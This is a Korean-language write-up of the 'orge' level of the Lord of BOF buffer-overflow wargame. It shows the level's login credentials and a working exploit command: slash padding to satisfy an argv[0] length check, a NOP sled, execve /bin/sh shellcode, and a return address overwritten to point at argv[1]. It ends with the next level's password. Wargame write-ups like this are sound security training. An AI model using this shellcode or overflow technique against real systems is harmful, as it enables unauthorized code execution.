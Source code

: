# [LOB] orge Write-up

![](./picture/orge_1.JPG)

```
login : darkelf
Password : kernel crashed
```

위의 계정으로 로그인하면 접속된다.

이번 문제의 소스코드는 다음과 같다.

![](./picture/orge_2.JPG)

이번 문제는 argv[0], 즉 실행파일 이름의 길이를 검사한다. 실행할 때 77글자 중 `,`과 `orge`를 제외한 72글자를 `/`로 채우면 된다. 

![](./picture/orge_3.JPG)

나머지 풀이과정은 이전 문제와 똑같다. 인자로 쉘코드를 넘겨주고, argv[1]의 시작 주소를 찾아 리턴주소로 넣어주면 된다. core dump를 뜬 상태에서 esp+4가 argv 주소이다.

![](./picture/orge_4.JPG)

argv[1]의 주소를 확인해보니 입력해준 A와 리턴주소가 있다.

```
.`python -c 'print "/"*72'`orge `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x9d\xfb\xff\xbf"'`
```
`슬래시(/)`를 72개 넣어주어 argv[0]의 길이를 77로 맞춰주었다. 그리고 `NOP(19byte)`과 `쉘코드(25byte)`로 SFP까지 44byte 채워주었고, 그 뒤를 `argv[1]의 시작 주소`로 채워주었다.

![](./picture/orge_5.JPG)

비밀번호는 `timewalker` 이다.